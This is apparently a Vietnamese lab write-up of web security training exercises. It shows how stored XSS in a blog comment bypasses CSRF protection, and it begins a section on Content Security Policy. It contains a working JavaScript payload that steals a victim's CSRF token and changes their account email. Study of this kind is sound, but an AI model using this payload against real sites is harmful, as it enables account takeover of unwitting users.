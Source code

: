 - Thông tin đăng nhập: wiener:peter

Bước 1: Sử dụng thông tin đăng nhập wiener:peter. 
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/dccd5f97-41b5-4913-96fc-3042013e3663" />
- Khi gửi yêu cầu POST tới /my-account/change-email, với tham số có tên là email.
- Có một mã thông báo chống CSRF trong đầu vào ẩn có tên là token.

Bước 2: Dán nội dung sao vào blog.Điều này sẽ khiến bất kỳ ai xem bình luận gửi yêu cầu POST để thay đổi địa chỉ email của họ thành test@test.com.
```
 <script>
          var req = new XMLHttpRequest();
          req.onload = handleResponse;
          req.open('get','/my-account',true);
          req.send();
          function handleResponse() {
              var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
              var changeReq = new XMLHttpRequest();
              changeReq.open('post', '/my-account/change-email', true);
              changeReq.send('csrf='+token+'&email=test@test.com')
          };
          </script>
```
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/e1cb7bd2-aab6-4978-823d-10f16bb6dda3" />

- Trang đổi email có CSRF token, bình thường sẽ chặn tấn công CSRF.
- Nhưng trang blog bị Stored XSS, attacker chèn JavaScript độc hại vào bình luận.
- Khi nạn nhân xem bình luận, script chạy trong trình duyệt của họ:
  + Gửi request GET tới /my-account để lấy CSRF token hợp lệ.
  + Dùng token đó để gửi POST tới /my-account/change-email kèm email giả.
- Do request được gửi bằng session của nạn nhân → hệ thống tin là hợp lệ → email của nạn nhân bị đổi.



----
### 5. Chính sách bảo mật nội dung
CSP là một cơ chế bảo mật trình duyệt nhằm mục đích giảm thiểu XSS và một số cuộc tấn công khác. Nó hoạt động bằng cách hạn chế các tài nguyên (như tập lệnh và hình ảnh) mà một trang có thể tải và hạn chế việc một trang có thể được đóng khung bởi các trang khác hay không.

Để bật CSP, phản hồi cần bao gồm tiêu đề phản hồi HTTP được gọi Content-Security-Policyvới giá trị chứa chính sách. Bản thân chính sách bao gồm một hoặc nhiều chỉ thị, được phân tách bằng dấu chấm phẩy

#### 5.1 Giảm thiểu các cuộc tấn công XSS bằng CSP
- Trước tiên hãy thực hiện một cuộc tấn công mã lệnh chéo trang web (cross-site scripting) bỏ qua CSP và đánh cắp mã thông báo CSRF của người dùng nạn nhân được mô phỏng bằng Burp Collaborator. Sau đó, bạn cần thay đổi địa chỉ email của người dùng được mô phỏng thành hacker@evil-user.net.
- Bạn phải gắn nhãn vector của mình bằng từ "Click" để khuyến khích người dùng mô phỏng nhấp vào nó.Ví dụ: `<a href="">Click me</a>`
- Bạn có thể đăng nhập vào tài khoản của mình bằng thông tin đăng nhập sau:wiener:peter
